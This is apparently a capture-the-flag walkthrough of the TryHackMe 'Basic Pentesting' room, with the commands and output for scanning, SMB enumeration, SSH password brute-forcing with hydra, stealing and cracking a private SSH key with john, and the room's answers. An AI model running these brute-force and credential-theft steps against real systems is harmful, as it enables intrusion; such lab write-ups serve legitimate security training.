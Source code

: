 # Basic Pentesting

* Link: https://tryhackme.com/room/basicpentestingjt
* Difficulty: Easy

> Find the services exposed by the machine

```sh
rustscan -a 10.10.42.49
```

> What is the name of the hidden directory on the web server(enter name without /)?

```sh
gobuster dir -u 10.10.42.49 -w /usr/share/wordlists/dirb/common.txt
```

**Answer**: development

> User brute-forcing to find the username & password

> What is the username?

```sh
smbclient -L 10.10.42.49
```

```
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
```

```sh
smbclient "//10.10.42.49/Anonymous"
```

```
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11093976 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
```

```sh
cat staff.txt
```

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

**Answer**: Jan

> What is the password?

```sh
hydra -l jan -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.10.42.49 -t 4 ssh
```

**Answer**: armando

> What service do you use to access the server(answer in abbreviation in all caps)?

**Answer**: SSH

> Enumerate the machine to find any vectors for privilege escalation

We can use `scp` to copy a script like [LinEnum.sh](https://github.com/rebootuser/LinEnum) to our target machine.

```sh
scp /opt/LinEnum/LinEnum.sh jan@10.10.42.49:/dev/shm
```

LinEnum shows us another user on the target system: "kay".

> What is the name of the other user you found(all lower case)?

**Answer**: kay

> If you have found another user, what can you do with this information?

We can take a look at their /home/ directory:

```sh
ls -al /home/kay/
```

```
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

```sh
ls -al /home/kay/.ssh/
```

```
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

The file /home/kay/.ssh/id_rsa seems to be readable!

We copy it to our host system and try to establish a SSH connection as the user "kay":

```sh
chmod 600 /tmp/kay.id_rsa
ssh -i /tmp/kay.id_rsa kay@10.10.42.49
```

```
Enter passphrase for key '/tmp/kay.id_rsa':
```

The private key seems to be password protected. We can use John the Ripper to brute force it. First, we need to convert the RSA key into a format that `john` can understand.

```sh
/usr/share/john/ssh2john.py /tmp/kay.id_rsa | tee /tmp/kay.id_rsa.john
```

```sh
john /tmp/kay.id_rsa.john
```

```
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
beeswax          (/tmp/kay.id_rsa)
```

We find out that the password for "kay" is "beeswax".

> What is the final password you obtain?

```sh
ssh -i /tmp/kay.id_rsa kay@10.10.42.49
```

We use the password "beeswax".

```sh
ls -l
```

```
total 4
-rw------- 1 kay kay 57 Apr 23  2018 pass.bak
```

```sh
cat pass.bak
```

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

**Answer**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
